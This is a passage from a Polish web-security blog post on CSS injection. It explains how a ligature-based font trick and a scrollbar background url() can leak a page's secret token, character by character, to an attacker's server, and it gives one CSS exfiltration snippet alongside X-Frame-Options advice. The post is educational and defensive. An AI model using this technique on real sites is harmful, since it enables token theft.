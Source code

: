https://youtu.be/dX8J0LBMlCY
<h3>Jak zapobiegać?</h3>
No, jeśli masz buga, która pozwala na wstrzykiwanie CSS to po prostu go napraw… i tak dalej ;) Z bezpieczeństwa aplikacji możemy Cię też podszkolić: [typeofweb-courses-slogan category="security"] Mocno utrudnisz też sprawę jeśli <strong>nie zezwolisz aby Twoja aplikacja była osadzana wewnątrz <code>&lt;iframe&gt;</code></strong>. W dzisiejszych czasach można to zrobić dość łatwo, wystarczy tylko dodać jeden nagłówek do odpowiedzi z serwera: <code>X-Frame-Options: DENY</code>
<h2>Atak z wykorzystaniem ligatur</h2>
Wiesz co to jest ligatura? To czcionka (lub glif) w której zamiast dwóch sąsiadujących osobnych liter używa się nowego specjalnego znaku, który powstał z połączenia tych liter. Przykładowo, za wikipedią, możemy wymienić takie kombinacje liter i odpowiednie dla nich ligatury:

<a href="https://typeofweb.com/wp-content/uploads/2017/12/Ligatures.png"><img class="aligncenter size-full wp-image-862" src="https://typeofweb.com/wp-content/uploads/2017/12/Ligatures.png" alt="Popularne ligatury" width="555" height="514" /></a>

Dzięki nim tekst ma być bardziej czytelny i piękny :) <strong>Ja też używam na tym blogu specjalnych ligatur do formatowania kodu.</strong> Przykładowo: <code>=&gt;</code> zamiast <code>=</code> i <code>&gt;</code> albo <code>!==</code> zamiast <code>!</code> <code>=</code> <code>=</code>. Wykorzystuję do tego fonta <a href="https://github.com/tonsky/FiraCode">FiraCode</a>.
<h3>Podatność</h3>
Jak widzisz, w webdevelopmencie również istnieje możliwość używania ligatur. Co to <em>de facto</em> oznacza w kontekście hackowania? Oznacza to, że <strong>możesz wpływać na dowolne kombinacje znaków na stronie…</strong> a więc możesz zastosować trick podobny do tego z atrybutami, zgadywać kolejne symbole w tokenie, znak po znaku… Jest to nieco bardziej skomplikowane niż poprzednie przykłady, ale wykonalne! Co musisz zrobić?
<ul>
 	<li>dynamicznie generuj fonta</li>
 	<li>zdefiniuj, że wszystkie znaki mają wielkość 0px</li>
 	<li>zdefiniuj, że konkretna ligatura ma wielkość 5000px</li>
</ul>
W efekcie wszystkie znaki na stronie przestają być widoczne (zupełnie nie ma na niej nic). Natomiast <strong>konkretna kombinacja znaków</strong> jest bardzo duża… Tak ogromna, że aż nie mieści się w oknie przeglądarki i powoduje, że <strong>pojawia się scrollbar</strong>… Oto trick :)
<ul>
 	<li>załaduj stronę w iframe</li>
 	<li>wstrzyknij CSS (dokładnie tak jak w poprzednim przykładzie)</li>
 	<li>jeśli w iframie pojawi się scrollbar -&gt; trafiłaś/eś w kombinację znaków!</li>
</ul>
Ale co z tego, że pojawia się scrollbar, skąd będziesz o tym wiedział(a)? Otóż <strong>w przeglądarkach opartych o webkit scrollbarom można ustawić tło w postaci obrazka. </strong>Mamy trafienie, widoczny jest scrollbar, przeglądarka próbuje pobrać obrazek i otrzymujemy informację na naszym serwerze!
<pre class="language-css"><code>body::-webkit-scrollbar:horizontal {
  background: url(https://typeofweb.com/match);
}</code></pre>
Teraz wystarczy tylko to kilka razy powtórzyć :)

Jeszcze dokładniejszy opis przeprowadzenia tego ataku (wraz z kodem!) znajdziecie na stronie <a href="https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/#attachment_22102">sekurak.pl</a>. Na samym końcu wpisu jest też filmik prezentujący końcowy efekt.
<h2>Stosowanie ataków CSS do kodu JS</h2>
Często zdarza się, że w aplikacjach internetowych część kodu generowana jest po stronie serwera — czasem również kodu JS. Pracowałem nawet przy projekcie, gdzie po stronie serwera generowany był token dla użytkownika, a następnie był on renderowany do HTML w postaci prostego tagu <code>&lt;script&gt;</code>. <strong>Czy na taki kod JS również można zastosować powyższe ataki? Ależ tak!</strong>
